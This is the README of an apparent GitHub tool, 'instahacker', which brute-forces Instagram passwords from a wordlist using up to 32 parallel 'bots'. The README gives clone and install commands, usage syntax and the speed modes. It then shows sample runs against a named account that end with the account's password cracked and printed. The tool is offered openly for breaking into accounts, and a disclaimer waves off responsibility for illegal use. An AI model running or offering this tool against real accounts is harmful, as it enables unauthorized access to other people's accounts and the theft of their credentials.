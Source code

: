 # instahacker
# youtube : FR13NDS DZ
# facebook : Phoenix Pw
# github : PHOENIX7713
# twitter : ShadowDz5
# instagram : zodiac2372
# Note! : We don't Accept any responsibility for any illegal usage.

git clone https://github.com/PHOENIX7713/instahacker.git

cd instahacker

pip3 install -r requirements.txt

# Help

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py -h
usage: instahack.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots

# Usage

python3 instahack.py <username> <wordlist> -m <mode>                  

# Bots(Threads)

    4 bots: 64 passwords at a time
    8 bots: 128 passwords at a time
    16 bots: 256 passwords at a time
    32 bots: 512 passwords at a time

# Modes

    0: 32 bots
    1: 16 bots
    2: 8 bots
    3: 4 bots

# Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 3

# Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 2

# Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 1

# Savage mode

This mode uses 32 bots, or 512 passwords at a time.

C:\Users\Moussa\Desktop\Instagram>python3 instahack.py Sami09.1 pass.lst -m 0

If you don't specify a mode, then mode is set to 2
# Run

[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True

# Stop

[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
